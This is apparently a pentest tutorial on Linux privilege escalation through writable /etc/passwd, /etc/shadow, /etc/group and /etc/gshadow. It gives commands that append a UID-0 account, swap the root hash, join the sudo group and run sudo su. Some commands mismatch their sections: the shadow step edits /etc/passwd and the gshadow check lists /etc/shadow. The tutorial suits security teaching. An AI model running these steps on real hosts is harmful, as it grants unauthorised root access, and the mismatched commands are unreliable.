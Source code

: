  
###### Table of Contents

- [Default Permissions of Important Files in Linux](#**Default%20Permissions%20of%20Important%20Files%20in%20Linux**)
		- [Understanding file permissions is crucial for privilege escalation and security assessments. Below are the default permissions of critical system files in Linux](#Understanding%20file%20permissions%20is%20crucial%20for%20privilege%20escalation%20and%20security%20assessments.%20Below%20are%20the%20default%20permissions%20of%20critical%20system%20files%20in%20Linux:)
- [Privilege Escalation via sensitive files](#Privilege%20Escalation%20via%20sensitive%20files)
	- [1. Privilege Escalation through /etc/passwd](#1.%20Privilege%20Escalation%20through%20**/etc/passwd**)
			- [1.1 check the permission of /etc/passwd](#1.1%20check%20the%20permission%20of%20/etc/passwd)
			- [1.2 generate password hash](#1.2%20generate%20password%20hash)
			- [1.3 Edit The /etc/passwd](#1.3%20Edit%20The%20/etc/passwd)
			- [1.4 Then login with *root1* user using our password](#1.4%20Then%20login%20with%20*root1*%20user%20using%20our%20password)
	- [2. Privilege Escalation through /etc/shadow](#2.%20Privilege%20Escalation%20through%20**/etc/shadow**)
			- [2.1 check the permission of /etc/shadow](#2.1%20check%20the%20permission%20of%20/etc/shadow)
			- [2.2 generate password hash](#2.2%20generate%20password%20hash)
			- [2.3 Edit The /etc/shadow file](#2.3%20Edit%20The%20/etc/shadow%20file)
			- [2.4 Then login with root1 user using our password](#2.4%20Then%20login%20with%20root1%20user%20using%20our%20password)
	- [3. Privilege Escalation through /etc/group](#3.%20Privilege%20Escalation%20through%20**/etc/group**)
			- [3.1 check the permission of /etc/group](#3.1%20check%20the%20permission%20of%20/etc/group)
			- [3.2 Edit the /etc/group](#3.2%20Edit%20the%20/etc/group)
			- [3.3  Reset Connection](#3.3%20%20Reset%20Connection)
			- [3.4  login with normal user / get Shell](#3.4%20%20login%20with%20normal%20user%20/%20get%20Shell)
	- [4. Privilege Escalation through /etc/gshadow](#4.%20Privilege%20Escalation%20through%20**/etc/gshadow**)
			- [4.1 check the permission of /etc/gshadow](#4.1%20check%20the%20permission%20of%20**/etc/gshadow**)
			- [4.2 generate password hash](#4.2%20generate%20password%20hash)
			- [4.3 edit the /etc/gshadow](#4.3%20edit%20the%20/etc/gshadow)
			- [4.4  login with sudo / wheel group](#4.4%20%20login%20with%20**sudo%20/%20wheel**%20group)

 
##  **Default Permissions of Important Files in Linux**

#### Understanding file permissions is crucial for privilege escalation and security assessments. Below are the default permissions of critical system files in Linux:

the default permissions of critical system files in Linux:

| **File**       | **Default Permissions** | **Owner** | **Group** | **Purpose**                                     |
| -------------- | ----------------------- | --------- | --------- | ----------------------------------------------- |
| `/etc/passwd`  | `-rw-r--r-- (644)`      | `root`    | `root`    | Stores user account details (but not passwords) |
| `/etc/shadow`  | `-rw------- (600)`      | `root`    | `shadow`  | Stores hashed passwords (only root can access)  |
| `/etc/group`   | `-rw-r--r-- (644)`      | `root`    | `root`    | Stores group information                        |
| `/etc/gshadow` | `-rw------- (600)`      | `root`    | `shadow`  | Stores group passwords (if any)                 |
| `/etc/crontab` | `-rw-r--r-- (644)`      | `root`    | `root`    | System-wide cron jobs                           |
| `/etc/sudoers` | `-r--r----- (440)`      | `root`    | `root`    | Controls sudo access                            |
## Privilege Escalation via sensitive files

### 1. Privilege Escalation through **/etc/passwd**


**If we got write permission for other user on /etc/passwd  then we can create hash and add into it ** 

#####  1.1 check the permission of /etc/passwd
```bash
ls -lha /etc/passwd
```

![](Attachments/attachments/Pasted%20image%2020250221183500.png)

#####  1.2 generate password hash

```bash title:"generate password hash"
openssl passwd 1234
```

![](Attachments/attachments/Pasted%20image%2020250221172947.png)

##### 1.3 Edit The /etc/passwd  

read  the /etc/passwd file Then 
Clone the root user information edit root to root1 (we can also add only passwd hash for root user)
After that paste into /etc/passwd file and also add the created hash password.( you can use any editor but here I am going to use echo )
```bash
echo 'root1:$1$NBIvZax5$jv3IXEGcWtVxsfayNTv9B0:0:0:root:/root:/bin/bash' >> /etc/passwd 
```

![](Attachments/attachments/Pasted%20image%2020250221182917.png)

Apart of hash we can also use 0 (zero) for empty password 

##### 1.4 Then login with *root1* user using our password 
![](Attachments/attachments/Pasted%20image%2020250221192427.png)




### 2. Privilege Escalation through **/etc/shadow**

**If we got write permission for other user on /etc/shadow then we can create hash and add into it or we can go with crack the hash using password cracking tools  ** 

#####  2.1 check the permission of /etc/shadow
```bash
ls -lha /etc/shadow
```

![](Attachments/attachments/Pasted%20image%2020250221190658.png)


#####  2.2 generate password hash

```bash title:"generate password hash"
openssl passwd 1234
```

![](Attachments/attachments/Pasted%20image%2020250221172947.png)


##### 2.3 Edit The /etc/shadow file 
Replace root hash with our created hash 

```bash
vim /etc/passwd    #will open vim editor then replace root password hash
```

![](Attachments/attachments/Pasted%20image%2020250221192122.png)
![](Attachments/attachments/Pasted%20image%2020250221192032.png)

##### 2.4 Then login with root1 user using our password

```bash
su - root1
```

![](Attachments/attachments/Pasted%20image%2020250221192427.png)





### 3. Privilege Escalation through **/etc/group**

**if we got write permission for other user on /etc/group then we can add user into group**
#####  3.1 check the permission of /etc/group
```bash
ls -lha /etc/group
```

![](Attachments/Pasted%20image%2020250221193720.png)


##### 3.2 Edit the /etc/group
Add user into **wheel/sudo** group (if system is debian base then add into sudo group or if system is red-hat base then add into wheel group)
Here I am using debian base system so I'll add user into sudo group 

```bash
vim /etc/group
```

![](Attachments/Pasted%20image%2020250221200113.png)
![](Attachments/Pasted%20image%2020250221200237.png)


##### 3.3  Reset Connection
Firstly we should logout or reset the connection after that we can get root access

```bash
exit
```

![](Attachments/Pasted%20image%2020250221200849.png)

##### 3.4  login with normal user / get Shell
![](Attachments/Pasted%20image%2020250221201128.png)

then get root access using **sudo su** command
```bash
sudo su
```

![](Attachments/Pasted%20image%2020250221201305.png)



### 4. Privilege Escalation through **/etc/gshadow**
if we got write permission for other user on **/etc/gshadow** then we can add hash for **sudo/wheel** group to get root access

#####  4.1 check the permission of **/etc/gshadow**
```bash
ls -lha /etc/shadow
```

![](Attachments/Pasted%20image%2020250221204324.png)


#####  4.2 generate password hash

```bash title:"generate password hash"
openssl passwd 1234
```

![](Attachments/attachments/Pasted%20image%2020250221172947.png)


#####  4.3 edit the /etc/gshadow
edit the **/etc/gshadow** and add generated has for** **sudo/wheel** group. ( according to os *debian = sudo*  or *red-hat = wheel *)

```bash
vim /etc/gshadow
```

![](Attachments/Pasted%20image%2020250221205551.png)
![](Attachments/Pasted%20image%2020250221205227.png)

##### 4.4  login with **sudo / wheel** group 

```bash
sg sudo #acording to os sudo / wheel
```

After that we will get all access 
![](Attachments/Pasted%20image%2020250221210301.png)

Then run **sudo su** command 
```bash
sudo su 
```

![](Attachments/Pasted%20image%2020250221210441.png)
